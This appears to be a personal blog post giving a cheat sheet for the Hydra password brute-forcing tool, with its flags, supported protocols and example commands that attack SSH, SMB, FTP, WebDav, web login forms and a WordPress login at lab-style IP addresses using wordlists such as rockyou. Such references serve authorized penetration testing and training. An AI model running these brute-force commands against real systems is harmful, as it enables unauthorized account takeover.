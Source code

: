 +++
author = "Noobosaurus R3x"
title = "Hydra Cheat Sheet"
date = "2023-07-18T20:36:00Z"
description = "Hydra Cheat Sheet"
type = [
    "posts"
]
categories = [
    "cheat-sheets"
]
tags = [
    "cheat-sheets"
]
+++
---
# **Basic syntax :**
```bash
hydra [options] <IP> <protocole>
```
---
## Some flags :

`-h` Show help menu  
`-l <username>` Username/login  
`-L <wordlist>` Usernames/login wordlist  
`-p <password>` Password  
`-P <wordlist>` Passwords wordlist  
`-s <PORT>` Specify port  
`-f` Stop bruteforce as soon as username and password are found  
`-R` Restore previous session  
`-t <number>` Number of threads  
`-V` Verbosity  

## Some protocols :

SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP, SMB, SMTP, MySQL, etc...

## Examples :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb
```

## Bruteforce HTTP Post form :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 http-post-form "/login:username=admin&password=^PASS^:F=Your password is incorrect
```

## Bruteforce Wordpress :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

## Bruteforce FTP :
```bash
hydra -L /path/to/userlist.txt -P /path/to/pasword_list.txt 10.10.10.10 -t 4 ftp
```

## Bruteforce WebDav : 
```bash
hydra -L /path/to/userlist.txt -P path/to/pasword_list.txt 10.10.10.10 http-get /webdav
```
---
If you want to watch my video on hydra (in french only) : 
{{< youtube id="Fu6Xn8RpO7Q" >}}